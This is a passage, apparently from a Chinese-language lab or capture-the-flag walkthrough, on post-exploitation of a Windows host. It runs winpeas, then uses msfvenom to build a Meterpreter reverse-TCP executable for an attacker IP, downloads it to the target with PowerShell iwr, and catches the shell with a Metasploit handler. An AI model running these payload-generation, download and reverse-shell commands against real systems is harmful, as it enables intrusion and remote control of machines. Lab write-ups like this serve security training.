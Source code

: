 执行winpeas.exe

```
./winpeas.exe
```

没搞定，因此我想着，还是得用msf上来，在前面获取到shell的情况下，我们用msf继续。首先生成木马，然后上传，接着执行，生成木马。

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.3 lport=4444 -f exe > shell.exe
```

上传，在获取的shell中执行

```
iwr -uri 'http://10.10.16.3:8083/shell.exe' -outfile 'shell.exe'
```

![截图](492d2d823579647a3e05dd8a4fc06614.png)

然后本地msf监听

```
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.16.3
set lport 4444
run
```

![截图](9a5b5c03c71cbf33244388ec8544183a.png)
